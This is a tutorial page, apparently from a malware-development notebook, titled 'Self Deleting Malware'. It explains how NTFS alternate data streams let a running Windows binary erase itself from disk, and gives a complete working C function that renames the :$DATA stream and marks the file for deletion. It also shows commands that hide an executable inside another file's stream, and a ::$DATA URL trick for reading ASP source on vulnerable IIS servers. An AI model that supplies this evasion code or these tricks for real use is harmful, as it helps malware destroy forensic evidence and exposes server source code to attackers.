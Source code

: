 # Self Deleting Malware

## Introduction

A not so well known feature of the New Technology File System (NTFS) is the support for multiple _<mark style="color:yellow;">**data streams**</mark>_. Alternate data streams allow files to contain more than one stream of data. It's purpose was primarily to allow compatibility with Macintosh systems.

Every file has at least one data stream:  **In Windows, the default data stream is** <mark style="color:yellow;">**:$DATA**</mark>.

## Data Streams

Since **:$DATA** exists on every file, it can be an alternate way to access any file. Any applications that creates, looks at, or depends on the end of a file name (or extension) should be aware of alternate data streams. <mark style="color:yellow;">**Unsanitized user input could use the :$DATA stream to change the behavior of the program.**</mark>

### Creating Alternate Data Streams

* `C:\> type C:\windows\system32\notepad.exe > c:\windows\system32\calc.exe:notepad.exe`
* `C:\> start c:\windows\system32\calc.exe:notepad.exe`

### Accessing the :$DATA Alternate Data Stream

* `C:\> start c:\textfile.txt::$DATA`

### Exploiting Data Stream to show ASP code

In some vulnerable versions of IIS, we can exploit the data stream extension to view source code.

Normal Access:

* ```
  http://www.alternate-data-streams.com/default.asp
  ```

Exploited to show code:

* ```
  http://www.alternate-data-streams.com/default.asp::$DATA
  ```



## Deleting a Running Binary

As we know it is not possible to delete a running binary on Windows, since deleting a file requires that no other process is using it.

One way to get around this is by <mark style="color:yellow;">**renaming**</mark>** the default data stream **<mark style="color:yellow;">**:$DATA**</mark>** to another name that represents a new data stream.**&#x20;

We then can we can delete the newly renamed data stream, causing the binary to be wiped from disk.

### Retrieve File Handle

We first need to retrieve the file handle of the binary.

The file handle can be retrieved using the **`CreateFile`** WinAPI. The [access flag](https://learn.microsoft.com/en-us/windows/win32/secauthz/access-mask) must be set to **`DELETE`** to provide file deletion permissions.

```c
hFile = CreateFileW(
        L"deletion.exe",
        DELETE | SYNCHRONIZE,
        FILE_SHARE_READ,
        NULL,
        OPEN_EXISTING,
        0,
        NULL
);
```

### Renaming The Default Data Stream

We can rename the default data stream of the running binary with [SetFileInformationByHandle](https://learn.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-setfileinformationbyhandle) WinAPI function with the [FileRenameInfo](https://learn.microsoft.com/en-us/windows/win32/api/winbase/ns-winbase-file\_rename\_info) flag. There is a list of enum values that we can choose from.



`FILE_INFO_BY_HANDLE_CLASS Enum:`

```c
typedef enum _FILE_INFO_BY_HANDLE_CLASS {
  FileBasicInfo,
  FileStandardInfo,
  FileNameInfo,
  FileRenameInfo, // This is the flag we will use to change the filename.
  ...
  }
```

`SetFileInformationByHandle` WinAPI function:

```c
if (!SetFileInformationByHandle(
        hFile,
        FileRenameInfo,
        &pRename,
        sRename
        )) {

   wprintf(L"SetFileInformationByHandle Failed with Error %d", GetLastError());
   return -1;
};

```



<figure><img src="../../../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

### Delete The Data Stream

We then delete the  `:$DATA` stream to erase the file from the disk.&#x20;

To do so, the same **`SetFileInformationByHandle`** WinAPI will be used, with a different flag, [FileDispositionInfo](https://learn.microsoft.com/en-us/windows/win32/api/winbase/ns-winbase-file\_disposition\_info) This flag marks the file for deletion when its handle is closed.

We will close and reopen the previous handle.

## Final Code

{% code fullWidth="true" %}
```c

// The new data stream name
#define NEW_STREAM L":Foobar"


BOOL DeleteSelf() {


	WCHAR                       szPath [MAX_PATH * 2] = { 0 };
	FILE_DISPOSITION_INFO       Delete                = { 0 };
	HANDLE                      hFile                 = INVALID_HANDLE_VALUE;
	PFILE_RENAME_INFO           pRename               = NULL;
	const wchar_t*              NewStream             = (const wchar_t*)NEW_STREAM;
    SIZE_T			            StreamLength	         = wcslen(NewStream) * sizeof(wchar_t);
	SIZE_T                      sRename               = sizeof(FILE_RENAME_INFO) + StreamLength;


    // Allocating enough buffer for the 'FILE_RENAME_INFO' structure
	pRename = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, sRename);
	if (!pRename) {
		printf("[!] HeapAlloc Failed With Error : %d \n", GetLastError());
		return FALSE;
	}
  
    // Cleaning up some structures
	ZeroMemory(szPath, sizeof(szPath));
	ZeroMemory(&Delete, sizeof(FILE_DISPOSITION_INFO));

	//----------------------------------------------------------------------------------------
    // Marking the file for deletion (used in the 2nd SetFileInformationByHandle call) 
	Delete.DeleteFile = TRUE;
  
    // Setting the new data stream name buffer and size in the 'FILE_RENAME_INFO' structure
	pRename->FileNameLength = StreamLength;
	RtlCopyMemory(pRename->FileName, NewStream, StreamLength);

	//----------------------------------------------------------------------------------------

    // Used to get the current file name
	if (GetModuleFileNameW(NULL, szPath, MAX_PATH * 2) == 0) {
		printf("[!] GetModuleFileNameW Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	//----------------------------------------------------------------------------------------
    // RENAMING
  
    // Opening a handle to the current file
	hFile = CreateFileW(szPath, DELETE | SYNCHRONIZE, FILE_SHARE_READ, NULL, OPEN_EXISTING, NULL, NULL);
	if (hFile == INVALID_HANDLE_VALUE) {
		printf("[!] CreateFileW [R] Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	wprintf(L"[i] Renaming :$DATA to %s  ...", NEW_STREAM);

    // Renaming the data stream
	if (!SetFileInformationByHandle(hFile, FileRenameInfo, pRename, sRename)) {
		printf("[!] SetFileInformationByHandle [R] Failed With Error : %d \n", GetLastError());
		return FALSE;
	}
	wprintf(L"[+] DONE \n");

	CloseHandle(hFile);

	//----------------------------------------------------------------------------------------
    // DELETING
  
    // Opening a new handle to the current file
	hFile = CreateFileW(szPath, DELETE | SYNCHRONIZE, FILE_SHARE_READ, NULL, OPEN_EXISTING, NULL, NULL);
	if (hFile == INVALID_HANDLE_VALUE) {
		printf("[!] CreateFileW [D] Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	wprintf(L"[i] DELETING ...");
	
    // Marking for deletion after the file's handle is closed
	if (!SetFileInformationByHandle(hFile, FileDispositionInfo, &Delete, sizeof(Delete))) {
		printf("[!] SetFileInformationByHandle [D] Failed With Error : %d \n", GetLastError());
		return FALSE;
	}
	wprintf(L"[+] DONE \n");

	CloseHandle(hFile);

	//----------------------------------------------------------------------------------------

    // Freeing the allocated buffer
	HeapFree(GetProcessHeap(), 0, pRename);

	return TRUE;
}

```
{% endcode %}





## Hidden Files Misc

We can confirm that the files are in fact hidden when viewing the explorer

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>
